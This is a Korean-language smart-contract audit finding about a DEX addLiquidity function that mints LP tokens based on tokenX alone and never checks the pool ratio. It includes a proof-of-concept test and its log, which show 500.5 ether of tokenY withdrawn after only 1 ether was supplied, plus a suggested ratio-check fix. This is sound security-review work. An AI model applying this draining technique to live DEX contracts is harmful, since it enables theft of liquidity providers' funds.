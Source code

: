 ## 최영현

## 1. No Imbalance Check on Add Liquidity(1)

### 설명

문제 코드: addLiquidity 함수 전체

유동성 공급 시 유동성 풀 내의 토큰 비율을 검사하지 않는다. 또한 LP토큰 발행량 계산시 tokenX의 양만을 고려해 발행하기 때문에, Y의 양을 아무리 적게 넣더라도 X의 양에 비례한 LPToken을 발행받는다.

```jsx

function addLiquidity ... {
	...
	if(totalSupply() == 0){ LPTokenAmount = tokenXAmount * tokenYAmount / 10**18;} else{ LPTokenAmount = totalSupply() * tokenXAmount / reserveX;}

	require(minimumLPTokenAmount <= LPTokenAmount)
	...
}
```

### 파급력

Critical

-   산정 이유
    -   접근성이 매우 높고 피해 규모 또한 크다.
-   공격 시나리오
    -   유동성 공급 이후 발행된 LP토큰으로 removeLiquidity를 수행하면 공급하지 않은 Y토큰까지 탈취가 가능하다.
    -   아래 코드에서 TokenY는 1 ether만 공급하지만 LP토큰으로 회수하는 양은 500.5 ether이다.
    ```jsx
    function testAddLiquidity() external {
      uint firstLPReturn = dex.addLiquidity(1000 ether, 1000 ether, 0);
      emit log_named_uint("firstLPReturn", firstLPReturn);

      uint secondLPReturn = dex.addLiquidity(1000 ether, 1 ether, 0);
      emit log_named_uint("secondLPReturn", secondLPReturn);

      (uint tx, uint ty) = dex.removeLiquidity(secondLPReturn, 0, 0);
      emit log_named_uint("second LP remove", tx);
      emit log_named_uint("second LP remove", ty);

      assertEq(tx, 1000 ether);
      assertEq(ty, 1 ether);
    }
    ```
    ```jsx
    [FAIL. Reason: Assertion failed.] testAddLiquidity1() (gas: 230416)
    Logs:
      firstLPReturn: 1000000000000000000000000
      secondLPReturn: 1000000000000000000000000
      second LP remove: 1000000000000000000000
      second LP remove: 500500000000000000000
      Error: a == b not satisfied [uint]
            Left: 500500000000000000000
           Right: 1000000000000000000
    ```
-   공격 난이도
    -   누구나 접근 가능하므로, 매우 쉽다.
-   발생할 수 있는 피해
    -   유동성 공급 여부와 상관없이 누구나 유동성 토큰을 발행할 수 있으며, 발행한 토큰의 양만큼 회수가 가능하다. 따라서 DEX에 공급된 자산 전부를 탈취할 수 있다.

### 해결 방안

-   addLiquidity 함수 실행시 유동성 풀에 있는 토큰의 비율을 검사하는 코드가 필요하다.

```jsx
require(reserveX * tokenYAmount == reserveY * tokenXAmount);
```

